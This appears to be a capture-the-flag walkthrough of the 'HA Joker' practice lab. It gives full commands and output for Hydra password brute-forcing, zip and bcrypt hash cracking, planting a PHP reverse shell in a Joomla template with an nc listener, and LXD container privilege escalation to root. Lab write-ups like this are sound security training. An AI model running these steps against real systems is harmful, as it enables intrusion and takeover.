

# HA Joker CTF

Batman hits Joker.

We have developed this lab for the purpose of online penetration practices. Solving this lab is not that tough if you have proper basic knowledge of Penetration testing. Let’s start and learn how to breach it.

1. Enumerate Services
 * Nmap
2. Bruteforce
 * Performing Bruteforce on files over http
 * Performing Bruteforce on Basic Authentication
3. Hash Crack
 * Performing Bruteforce on hash to crack zip file
 * Performing Bruteforce on hash to crack mysql user
4. Exploitation
 * Getting a reverse connection
 * Spawning a TTY Shell
5. Privilege Escalation
 * Get root taking advantage of flaws in LXD

# #1 - Enumerate services on target machine.

*Hint: What about nmap?*

Let's start with a Nmap scan:

~~~
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 ad:20:1f:f4:33:1b:00:70:b3:85:cb:87:00:c4:f4:f7 (RSA)
|   256 1b:f9:a8:ec:fd:35:ec:fb:04:d5:ee:2a:a1:7a:4f:78 (ECDSA)
|_  256 dc:d7:dd:6e:f6:71:1f:8c:2c:2c:a1:34:6d:29:99:20 (ED25519)
80/tcp   open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: HA: Joker
8080/tcp open  http    Apache httpd 2.4.29
| http-auth: 
| HTTP/1.1 401 Unauthorized\x0D
|_  Basic realm=Please enter the password.
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: 401 Unauthorized
Service Info: Host: localhost; OS: Linux; CPE: cpe:/o:linux:linux_kernel
~~~

Nmap reveals 3 open ports on the server, 1 for SSH and 2 for HTTP.

# #2 - What version of Apache is it?

Answer: `2.4.29`

# #3 - What port on this machine not need to be authenticated by user and password?

Only the HTTP service running on port 80 doesn't require an authentication.

Answer: `80`

# #4 - There is a file on this port that seems to be secret, what is it?

*Hint: Extensions File, dirb command comes with a flag that append each word with this extensions. Try to use dirb with a file that contains some commons extensions in a web server.*

~~~
$ gobuster dir -u http://10.10.130.207 -w /data/src/wordlists/common.txt -x txt,php,html
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.130.207
[+] Threads:        10
[+] Wordlist:       /data/src/wordlists/common.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Extensions:     txt,php,html
[+] Timeout:        10s
===============================================================
2020/06/22 23:31:44 Starting gobuster
===============================================================
/.hta (Status: 403)
/.hta.txt (Status: 403)
/.hta.php (Status: 403)
/.hta.html (Status: 403)
/.htaccess (Status: 403)
/.htaccess.txt (Status: 403)
/.htaccess.php (Status: 403)
/.htaccess.html (Status: 403)
/.htpasswd (Status: 403)
/.htpasswd.txt (Status: 403)
/.htpasswd.php (Status: 403)
/.htpasswd.html (Status: 403)
/css (Status: 301)
/img (Status: 301)
/index.html (Status: 200)
/index.html (Status: 200)
/phpinfo.php (Status: 200)
/phpinfo.php (Status: 200)
/secret.txt (Status: 200)
/server-status (Status: 403)
===============================================================
2020/06/22 23:33:12 Finished
===============================================================
~~~

Answer: `secret.txt`

# #5 - There is another file which reveals information of the backend, what is it?

Answer: `phpinfo.php`

# #6 - When reading the secret file, We find with a conversation that seems contains at least two users and some keywords that can be intersting, what user do you think it is?

~~~
$ curl -s http://10.10.130.207/secret.txt
Batman hits Joker.
Joker: "Bats you may be a rock but you won't break me." (Laughs!)
Batman: "I will break you with this rock. You made a mistake now."
Joker: "This is one of your 100 poor jokes, when will you get a sense of humor bats! You are dumb as a rock."
Joker: "HA! HA! HA! HA! HA! HA! HA! HA! HA! HA! HA! HA!"
~~~

Answer: `joker`

# #7 - What port on this machine need to be authenticated by Basic Authentication Mechanism?

~~~
$ curl -i http://10.10.130.207:8080
HTTP/1.1 401 Unauthorized
Date: Tue, 23 Jun 2020 06:46:52 GMT
Server: Apache/2.4.29 (Ubuntu)
WWW-Authenticate: Basic realm=" Please enter the password."
Content-Length: 461
Content-Type: text/html; charset=iso-8859-1

<!DOCTYPE HTML PUBLIC "-//IETF//DTD HTML 2.0//EN">
<html><head>
<title>401 Unauthorized</title>
</head><body>
<h1>Unauthorized</h1>

This server could not verify that you
are authorized to access the document
requested.  Either you supplied the wrong
credentials (e.g., bad password), or your
browser doesn't understand how to supply
the credentials required.

<address>Apache/2.4.29 (Ubuntu) Server at 10.10.130.207 Port 8080</address>
</body></html>
~~~

Answer: `8080`

# #8 - At this point we have one user and a url that needs to be aunthenticated, brute force it to get the password, what is that password?

*Hint: Maybe burp with format user:pass and encode with base64? Note: Don't forget decode it!!*

Let's brute force `joker`'s password with Hydra:

~~~
$ hydra -l joker -P /data/src/wordlists/rockyou.txt -s 8080 10.10.130.207 http-get
Hydra v9.0 (c) 2019 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2020-06-23 09:07:05
[WARNING] You must supply the web page as an additional option or via -m, default path set to /
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344398 login tries (l:1/p:14344398), ~896525 tries per task
[DATA] attacking http-get://10.10.130.207:8080/
[8080][http-get] host: 10.10.130.207   login: joker   password: hannah
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2020-06-23 09:07:32
~~~

Answer: `hannah`

# #9 - Yeah!! We got the user and password and we see a cms based blog. Now check for directories and files in this port. What directory looks like as admin directory?

*Hint: Nikto with the credentials we obtained?*

The application hosted on port `8080` seems to be a Joomla CMS:

There is a `robots.txt` file (http://10.10.130.207:8080/robots.txt) that discloses several locations, one of which (`/administrator/`) being particularly interesting:

~~~
$ curl -s -H "Authorization: Basic am9rZXI6aGFubmFo" http://10.10.130.207:8080/robots.txt
# If the Joomla site is installed within a folder 
# eg www.example.com/joomla/ then the robots.txt file 
# MUST be moved to the site root 
# eg www.example.com/robots.txt
# AND the joomla folder name MUST be prefixed to all of the
# paths. 
# eg the Disallow rule for the /administrator/ folder MUST 
# be changed to read 
# Disallow: /joomla/administrator/
#
# For more information about the robots.txt standard, see:
# http://www.robotstxt.org/orig.html
#
# For syntax checking, see:
# http://tool.motoricerca.info/robots-checker.phtml

User-agent: *
Disallow: /administrator/
Disallow: /bin/
Disallow: /cache/
Disallow: /cli/
Disallow: /components/
Disallow: /includes/
Disallow: /installation/
Disallow: /language/
Disallow: /layouts/
Disallow: /libraries/
Disallow: /logs/
Disallow: /modules/
Disallow: /plugins/
Disallow: /tmp/
~~~

Answer: `/administrator/`

# #10 - We need access to the administration of the site in order to get a shell, there is a backup file, What is this file?

Let's search for some common extensions for backups:

~~~
$ gobuster dir -U joker -P hannah -u http://10.10.130.207:8080/ -x bak,old,tar,gz,tgz,zip,7z -w /data/src/wordlists/common.txt 
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.130.207:8080/
[+] Threads:        10
[+] Wordlist:       /data/src/wordlists/common.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Auth User:      joker
[+] Extensions:     bak,old,tar,gz,tgz,zip,7z
[+] Timeout:        10s
===============================================================
2020/06/23 09:33:15 Starting gobuster
===============================================================
/.hta (Status: 403)
/.hta.bak (Status: 403)
/.hta.old (Status: 403)
/.hta.tar (Status: 403)
/.hta.gz (Status: 403)
/.hta.tgz (Status: 403)
/.hta.zip (Status: 403)
/.hta.7z (Status: 403)
/.htaccess (Status: 403)
/.htaccess.zip (Status: 403)
/.htaccess.7z (Status: 403)
/.htaccess.bak (Status: 403)
/.htaccess.old (Status: 403)
/.htaccess.tar (Status: 403)
/.htaccess.gz (Status: 403)
/.htaccess.tgz (Status: 403)
/.htpasswd (Status: 403)
/.htpasswd.gz (Status: 403)
/.htpasswd.tgz (Status: 403)
/.htpasswd.zip (Status: 403)
/.htpasswd.7z (Status: 403)
/.htpasswd.bak (Status: 403)
/.htpasswd.old (Status: 403)
/.htpasswd.tar (Status: 403)
/administrator (Status: 301)
/bin (Status: 301)
/backup (Status: 200)
/backup.zip (Status: 200)
/cache (Status: 301)

[REDACTED]
~~~

Answer: `backup.zip`

# #11 - We have the backup file and now we should look for some information, for example database, configuration files, etc ... But the backup file seems to be encrypted. What is the password?

*Hint: Use john to crack the zip hash*

We download the backup file and try to uncompress it, but it requires a password:

~~~
$ wget --user=joker --password=hannah http://10.10.130.207:8080/backup.zip
$ unzip backup.zip 
Archive:  backup.zip
   creating: db/
[backup.zip] db/joomladb.sql password: 
~~~

Let's crack the password:

~~~
$ zip2john backup.zip > backup.hash
$ john backup.hash
Using default input encoding: UTF-8
Loaded 1 password hash (PKZIP [32/64])
Will run 8 OpenMP threads
Proceeding with single, rules:Single
Press 'q' or Ctrl-C to abort, almost any other key for status
Almost done: Processing the remaining buffered candidate passwords, if any.
Proceeding with wordlist:./password.lst
hannah           (backup.zip)
1g 0:00:00:00 DONE 2/3 (2020-06-23 10:16) 6.250g/s 584006p/s 584006c/s 584006C/s 123456..faithfaith
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
~~~

Answer: `hannah`

# #12 - Remember that... We need access to the administration of the site... Blah blah blah. In our new discovery we see some files that have compromising information, maybe db? ok what if we do a restoration of the database! Some tables must have something like user_table! What is the super duper user?

Unzipping the `backup.zip` archive reveals 2 folders: `db` and `site`, respectively with a sql dump of the database (2415 lines) and a copy of the website.

In the `site` directory we can find the Joomla configuration file, that contains the database's password:

~~~
$ head -n20 configuration.php 
<?php
class JConfig {
	public $offline = '0';
	public $offline_message = 'This site is down for maintenance. Please check back again soon.';
	public $display_offline_message = '1';
	public $offline_image = '';
	public $sitename = 'joker';
	public $editor = 'tinymce';
	public $captcha = '0';
	public $list_limit = '20';
	public $access = '1';
	public $debug = '0';
	public $debug_lang = '0';
	public $dbtype = 'mysqli';
	public $host = 'localhost';
	public $user = 'joomla';
	public $password = '1234';
	public $db = 'joomladb';
	public $dbprefix = 'cc1gr_';
	public $live_site = '';
~~~

But since we don't have access to the database currently, we are more interested in valid users to access the Joomla website.

Let's search for the interesting table:

~~~
$ grep CREATE TABLE joomladb.sql | grep user
grep: TABLE: No such file or directory
joomladb.sql:CREATE TABLE `cc1gr_user_keys` (
joomladb.sql:CREATE TABLE `cc1gr_user_notes` (
joomladb.sql:CREATE TABLE `cc1gr_user_profiles` (
joomladb.sql:CREATE TABLE `cc1gr_user_usergroup_map` (
joomladb.sql:CREATE TABLE `cc1gr_usergroups` (
joomladb.sql:CREATE TABLE `cc1gr_users` (
~~~

And now that we know the table:

~~~
$ grep cc1gr_users joomladb.sql 
-- Table structure for table `cc1gr_users`
DROP TABLE IF EXISTS `cc1gr_users`;
CREATE TABLE `cc1gr_users` (
-- Dumping data for table `cc1gr_users`
LOCK TABLES `cc1gr_users` WRITE;
/*!40000 ALTER TABLE `cc1gr_users` DISABLE KEYS */;
INSERT INTO `cc1gr_users` VALUES (547,'Super Duper User','admin','admin@example.com','$2y$10$b43UqoH5UpXokj2y9e/8U.LD8T3jEQCuxG2oHzALoJaj9M5unOcbG',0,1,'2019-10-08 12:00:15','2019-10-25 15:20:02','0','{\"admin_style\":\"\",\"admin_language\":\"\",\"language\":\"\",\"editor\":\"\",\"helpsite\":\"\",\"timezone\":\"\"}','0000-00-00 00:00:00',0,'','',0);
/*!40000 ALTER TABLE `cc1gr_users` ENABLE KEYS */;
~~~

The "Super Duper User" is `admin`.

# #13 - Super Duper User! What is the password?

*Hint: Again, john and mysql hash password.*

The hash of the admin's password is `$2y$10$b43UqoH5UpXokj2y9e/8U.LD8T3jEQCuxG2oHzALoJaj9M5unOcbG`

Save it to `admin.hash` and crack it with John:

~~~
$ /data/src/john/run/john admin.hash --wordlist=/data/src/wordlists/rockyou.txt 
Using default input encoding: UTF-8
Loaded 1 password hash (bcrypt [Blowfish 32/64 X3])
Cost 1 (iteration count) is 1024 for all loaded hashes
Will run 8 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
abcd1234         (?)
1g 0:00:00:07 DONE (2020-06-23 10:30) 0.1259g/s 136.0p/s 136.0c/s 136.0C/s bullshit..brownie
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
~~~

The password is `abcd1234`.

# #14 - At this point, you should be upload a reverse-shell in order to gain shell access. What is the owner of this session?

*Hint: Maybe use error.php page on a template? Of course try it and execute 'id' command.*

We are now able to authenticate with `admin:abcd1234` to the administration backend of Joomla. Let's create a webshell.

From the Control Panel go to `Configuration > Templates > Templates > Beez3 Details and Files`. Click on `error.php` to edit the code and replace it with a [PHP reverse shell](http://pentestmonkey.net/tools/php-reverse-shell/php-reverse-shell-1.0.tar.gz).

Open a listener (`rlwrap nc -nlvp 4444`) and in your browser, visit the error page (http://10.10.130.207:8080/templates/beez3/error.php). You should now have a reverse shell.

~~~
$ rlwrap nc -nlvp 4444
Ncat: Version 7.80 ( https://nmap.org/ncat )
Ncat: Listening on :::4444
Ncat: Listening on 0.0.0.0:4444
Ncat: Connection from 10.10.130.207.
Ncat: Connection from 10.10.130.207:42946.
Linux ubuntu 4.15.0-55-generic #60-Ubuntu SMP Tue Jul 2 18:22:20 UTC 2019 x86_64 x86_64 x86_64 GNU/Linux
 01:36:59 up  1:53,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data),115(lxd)
/bin/sh: 0: can't access tty; job control turned off
$ SHELL=/bin/bash script -q /dev/null
www-data@ubuntu:/$ whoami
whoami
www-data
www-data@ubuntu:/$ 
~~~

Answer: `www-data`

# #15 - This user belongs to a group that differs on your own group, What is this group?

*Hint: Linux containers*

We are member of the `lxd` group, which reveals the presence of a [linux container](https://linuxcontainers.org/lxd/introduction/):

~~~
www-data@ubuntu:/$ id
id
uid=33(www-data) gid=33(www-data) groups=33(www-data),115(lxd)
~~~

Answer: `lxd`

# #16 - Spawn a tty shell.

*Hint: python3*

You can do that as follows:

~~~
$ SHELL=/bin/bash script -q /dev/null
~~~

Or with python:

~~~
$ python3 -c "import pty;pty.spawn('/bin/bash')"
~~~

# #17 - In this question you should be do a basic research on how linux containers (LXD) work, it has a small online tutorial. Googling "lxd try it online".

Read documentation about LXC / LXD: https://linuxcontainers.org/lxd/introduction/

# #18 - List the image installed on the lxd-service, what is the ALIAS of this image?

*Hint: lxc image ls*

Now, let's list the images installed:

~~~
www-data@ubuntu:/$ lxc image list
lxc image list
+-------+-------------+--------+-------------+------+------+-------------+
| ALIAS | FINGERPRINT | PUBLIC | DESCRIPTION | ARCH | SIZE | UPLOAD DATE |
+-------+-------------+--------+-------------+------+------+-------------+
~~~

There is none. We are supposed to have a `myalpine` image. If you have an empty list, you can install it yourself.

First download the image on your machine: 

~~~
$ git clone https://github.com/saghul/lxd-alpine-builder.git
$ cd lxd-alpine-builder
$ ./build-alpine
~~~

Transfer the resulting `tar.gz` file (e.g. `alpine-v3.12-x86_64-20200623_1255.tar.gz`) to the target.

Now, on the target, import the image.

~~~
www-data@ubuntu:/tmp$ lxc image import alpine-v3.12-x86_64-20200623_1255.tar.gz --alias myalpine
<-v3.12-x86_64-20200623_1255.tar.gz --alias myalpine
www-data@ubuntu:/tmp$ lxc image list
lxc image list
+----------+--------------+--------+-------------------------------+--------+--------+-------------------------------+
|  ALIAS   | FINGERPRINT  | PUBLIC |          DESCRIPTION          |  ARCH  |  SIZE  |          UPLOAD DATE          |
+----------+--------------+--------+-------------------------------+--------+--------+-------------------------------+
| myalpine | f3c94a02e9d8 | no     | alpine v3.12 (20200623_12:55) | x86_64 | 3.07MB | Jun 23, 2020 at 11:07am (UTC) |
+----------+--------------+--------+-------------------------------+--------+--------+-------------------------------+
www-data@ubuntu:/tmp$ 
~~~

Answer: `myalpine`

# #19 - The idea here is to mount the root of the OS file system on the container, this should give us access to the root directory. Create the container with the privilege true and mount the root file system on /mnt in order to gain access to /root directory on host machine.

*Hint: lxc init ... lxc config device ... lxc start ... lxc exec ...*

~~~
www-data@ubuntu:/tmp$ lxc init myalpine joker -c security.privileged=true
lxc init myalpine joker -c security.privileged=true
Creating joker
www-data@ubuntu:/tmp$ lxc config device add joker mydevice disk source=/ path=/mnt/root recursive=true
<ydevice disk source=/ path=/mnt/root recursive=true
Device mydevice added to joker
www-data@ubuntu:/tmp$ lxc start joker
lxc start joker
www-data@ubuntu:/tmp$ lxc exec joker /bin/sh
lxc exec joker /bin/sh
~ # id
id
uid=0(root) gid=0(root)
~~~

# #20 - What is the name of the file in the /root directory?

Answer: `final.txt`
